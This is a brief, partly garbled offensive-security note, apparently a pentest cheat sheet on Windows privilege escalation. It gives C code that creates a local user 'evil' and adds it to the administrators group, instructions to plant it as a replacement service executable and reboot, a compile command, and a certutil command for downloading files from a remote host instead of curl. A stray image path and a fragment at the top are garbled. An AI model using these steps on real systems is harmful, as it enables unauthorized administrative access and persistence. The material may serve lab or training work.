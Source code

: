 https://juggernaut-sec.com/uac-bypass/
# Seem no.
 
 Replace a service exe and either restart the service or reboot (shutdown /r /t 0) 
 
```
#include <stdlib.h> 
int main () 
{ 
  	int i; 
   
  	i = system ("net user evil Ev!lpass /add"); 
  	i = system ("net localgroup administrators evil /add"); 
 	   
  	return 0; 
}
```
Compile the C Program above, and you can use it to create a new admin user.
-i686-w64-mingw32-gcc adduser.c -o adduser.exe 

DON'T USE CURL IF YOU CAN HELP IT, TRY CERTUTIL:
certutil.exe -urlcache -split -f <http://FILE> <OUTPUTFILE>

